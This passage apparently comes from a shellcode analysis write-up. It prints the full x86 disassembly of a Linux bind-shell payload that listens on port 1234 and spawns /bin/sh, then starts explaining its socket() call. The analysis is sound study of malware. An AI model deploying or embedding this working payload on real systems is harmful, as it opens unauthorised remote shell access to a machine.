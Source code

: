 ```nasm
00000010  5E                pop esi
00000011  52                push edx 
00000012  68020004D2        push dword 0xd2040002
00000017  6A10              push byte +0x10 
00000019  51                push ecx 
0000001A  50                push eax 
0000001B  89E1              mov ecx,esp 
0000001D  6A66              push byte +0x66 
0000001F  58                pop eax 
00000020  CD80              int 0x80 
00000022  894104            mov [ecx+0x4],eax 
00000025  B304              mov bl,0x4 	
00000027  B066              mov al,0x66 	
00000029  CD80              int 0x80 	
0000002B  43                inc ebx 
0000002C  B066              mov al,0x66 
0000002E  CD80              int 0x80 	
00000030  93                xchg eax,ebx 		
00000031  59                pop ecx
00000032  6A3F              push byte +0x3f
00000034  58                pop eax
00000035  CD80              int 0x80
00000037  49                dec ecx
00000038  79F8              jns 0x32
0000003A  682F2F7368        push dword 0x68732f2f
0000003F  682F62696E        push dword 0x6e69622f
00000044  89E3              mov ebx,esp
00000046  50                push eax
00000047  53                push ebx
00000048  89E1              mov ecx,esp
0000004A  B00B              mov al,0xb
0000004C  CD80              int 0x80
```
------------------------------------------------------------------------------------------------------------------------

<p style="text-align: justify;">The analysis of this shellcode will be divided into six parts, corresponding to the system calls called. </p>

### socket() ###
```nasm
00000000  31DB             xor ebx,ebx					
00000002  F7E3             mul ebx 				
00000004  53               push ebx 					
00000005  43               inc ebx 				
00000006  53               push ebx 				
00000007  6A02             push byte +0x2 			
00000009  89E1             mov ecx,esp 				
0000000B  B066             mov al,0x66 				
0000000D  CD80             int 0x80				
```
<p style="text-align: justify;">At the beginning a socket is prepared, which will serve as the interface on which the bind shell will listen for the connection. For this purpose, socket() syscall is used, called from socketcall()) syscall, taking the following arguments as components:</p>
- socket(AF_INET, SOCK_STREAM, IPPROTO_IP). 
